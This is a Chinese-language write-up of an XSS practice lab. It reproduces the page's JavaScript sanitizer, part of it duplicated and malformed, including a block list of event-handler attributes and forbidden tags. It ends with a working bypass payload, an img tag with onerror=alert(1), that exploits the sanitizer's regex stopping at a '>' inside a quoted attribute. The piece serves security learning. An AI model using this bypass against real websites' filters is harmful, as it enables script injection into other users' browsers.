 ## XSS靶场2

1.进去靶场有个输入框

![image-20250204184558451](C:\Users\zheng\AppData\Roaming\Typora\typora-user-images\image-20250204184558451.png)

2.尝试输入<u>111</u>,但并没有显示在页面中



3.f12分析下js，以下为js全部代码

<script>
    const input = document.getElementById('input');
    const getInput = () => input.value;
    const mainUrl = location.href.split('?')[0];
    const iframe = document.getElementById('ifr');
    input.value = new URL(location).searchParams.get('xss');


    <textarea autofocus oninput=process() id=input></textarea><br>
    
    <script>
        const input = document.getElementById('input');
        const getInput = () => input.value;
        const mainUrl = location.href.split('?')[0];
        const iframe = document.getElementById('ifr');
        input.value = new URL(location).searchParams.get('xss');
        
    function sanitize(input) {
        const TAG_REGEX = /<\/?(\w*)([^>]*)>/gmi;
        const COMMENT_REGEX = /<!--.*?-->/gmi;
        const END_TAG_REGEX = /^<\//;
        // Taken from XSS Cheat Sheet by Portswigger
        const FORBIDDEN_ATTRS = ["onactivate","onafterprint","onanimationcancel","onanimationend","onanimationiteration","onanimationstart","onauxclick","onbeforeactivate","onbeforecopy","onbeforecut","onbeforedeactivate","onbeforepaste","onbeforeprint","onbeforeunload","onbegin","onblur","onbounce","oncanplay","oncanplaythrough","onchange","onclick","oncontextmenu","oncopy","oncut","ondblclick","ondeactivate","ondrag","ondragend","ondragenter","ondragleave","ondragover","ondragstart","ondrop","onend","onended","onerror","onfinish","onfocus","onfocusin","onfocusout","onhashchange","oninput","oninvalid","onkeydown","onkeypress","onkeyup","onload","onloadeddata","onloadedmetadata","onloadend","onloadstart","onmessage","onmousedown","onmouseenter","onmouseleave","onmousemove","onmouseout","onmouseover","onmouseup","onpageshow","onpaste","onpause","onplay","onplaying","onpointerover","onpointerdown","onpointerenter","onpointerleave","onpointermove","onpointerout","onpointerup","onpointerrawupdate","onpopstate","onreadystatechange","onrepeat","onreset","onresize","onscroll","onsearch","onseeked","onseeking","onselect","onstart","onsubmit","ontimeupdate","ontoggle","ontouchstart","ontouchend","ontouchmove","ontransitioncancel","ontransitionend","ontransitionrun","onunhandledrejection","onunload","onvolumechange","onwaiting","onwheel"];
        const FORBIDDEN_TAGS = ["script", "style", "noscript", "template", "svg", "math"];
        
        let sanitized = input;
    
        sanitized = sanitized.replace(COMMENT_REGEX, '');
        sanitized = sanitized.replace(TAG_REGEX, (wholeTag, tagName, attributes) => {
            tagName = tagName.toLowerCase();
            
            if (FORBIDDEN_TAGS.includes(tagName)) return '';
            
            if (END_TAG_REGEX.test(wholeTag)) {
                return `</${tagName}>`;
            }
            for (let attr of FORBIDDEN_ATTRS) {
                attributes = attributes.replace(new RegExp(attr + '\\s*=', 'gi'), '_ROBUST_XSS_PROTECTION_=');
            }
            
            return `<${tagName}${attributes}>`
        });
        return sanitized;
        
    }
    
    function process() {
        const input = getInput();
        history.replaceState(null, null,  '?xss=' + encodeURIComponent(input));
        
        const div = document.createElement('div');
        div.innerHTML = sanitize(input);
        // document.body.appendChild(div)
    }
    
    process();
    </script>
        
        



 4.发现主要函数为**process（）**函数，函数首先对输入的语句进行URL编码，然后把语句放到**sanitize(input)**函数中，看是否为正常的语句，所以我们主要就是绕过 sanitize(input)函数中的过滤。



5.以下分析sanitize函数

```
function sanitize(input) {
    const TAG_REGEX = /<\/?(\w*)([^>]*)>/gmi;
    const COMMENT_REGEX = /<!--.*?-->/gmi;
    const END_TAG_REGEX = /^<\//;
    // Taken from XSS Cheat Sheet by Portswigger
    const FORBIDDEN_ATTRS = ["onactivate","onafterprint","onanimationcancel","onanimationend","onanimationiteration","onanimationstart","onauxclick","onbeforeactivate","onbeforecopy","onbeforecut","onbeforedeactivate","onbeforepaste","onbeforeprint","onbeforeunload","onbegin","onblur","onbounce","oncanplay","oncanplaythrough","onchange","onclick","oncontextmenu","oncopy","oncut","ondblclick","ondeactivate","ondrag","ondragend","ondragenter","ondragleave","ondragover","ondragstart","ondrop","onend","onended","onerror","onfinish","onfocus","onfocusin","onfocusout","onhashchange","oninput","oninvalid","onkeydown","onkeypress","onkeyup","onload","onloadeddata","onloadedmetadata","onloadend","onloadstart","onmessage","onmousedown","onmouseenter","onmouseleave","onmousemove","onmouseout","onmouseover","onmouseup","onpageshow","onpaste","onpause","onplay","onplaying","onpointerover","onpointerdown","onpointerenter","onpointerleave","onpointermove","onpointerout","onpointerup","onpointerrawupdate","onpopstate","onreadystatechange","onrepeat","onreset","onresize","onscroll","onsearch","onseeked","onseeking","onselect","onstart","onsubmit","ontimeupdate","ontoggle","ontouchstart","ontouchend","ontouchmove","ontransitioncancel","ontransitionend","ontransitionrun","onunhandledrejection","onunload","onvolumechange","onwaiting","onwheel"];
    const FORBIDDEN_TAGS = ["script", "style", "noscript", "template", "svg", "math"];
    
    let sanitized = input;

    sanitized = sanitized.replace(COMMENT_REGEX, '');
    sanitized = sanitized.replace(TAG_REGEX, (wholeTag, tagName, attributes) => {
        tagName = tagName.toLowerCase();
        
        if (FORBIDDEN_TAGS.includes(tagName)) return '';
        
        if (END_TAG_REGEX.test(wholeTag)) {
            return `</${tagName}>`;
        }
        for (let attr of FORBIDDEN_ATTRS) {
            attributes = attributes.replace(new RegExp(attr + '\\s*=', 'gi'), '_ROBUST_XSS_PROTECTION_=');
        }
        
        return `<${tagName}${attributes}>`
    });
    return sanitized;
    
}
```



其中代码首先对script等一系列标签进行了过滤，发现img标签并没有被过滤，其次对几乎所有的on事件都进行过滤，所以我们不能直接从绕on事件上入手，在正则匹配中可以发现问题

```
 const TAG_REGEX = /<\/?(\w*)([^>]*)>/gmi;
```

重要匹配到两个尖括号就会截取下来，例：

```
<img id=">"> 就会识别为 <img id=">
```

所以我们就可以利用该漏洞进行绕过：

```
<img src=">" onerror=alert(1)>
```

